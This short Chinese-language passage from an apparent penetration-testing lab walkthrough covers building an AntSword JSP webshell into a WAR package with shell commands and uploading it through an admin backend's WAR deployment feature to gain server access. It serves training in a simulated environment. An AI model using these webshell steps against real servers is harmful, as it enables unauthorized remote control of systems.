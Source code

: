 实验步骤三 >>> 构造和使用Webshell获得服务器访问权限

### 3\. 构造和使用Webshell获得服务器访问权限

![071.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=28646b4b-34ce-4850-a66b-c27e9310fa8a.png)

#### 3.1 制作恶意木马

利用蚁剑的jsp木马，制作生成包含jsp木马的ant.war包：

```
cd /root/Desktop
mkdir ant
cp ant.jsp ant
cd ant
jar -cvf ant.war .

```

![07.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=686efa9b-6540-4629-9821-15f915c4331d.png)

#### 3.2 上传恶意木马

利用管理后台上传部署war包的功能，上传部署制作的含有恶意木马的ant.war包
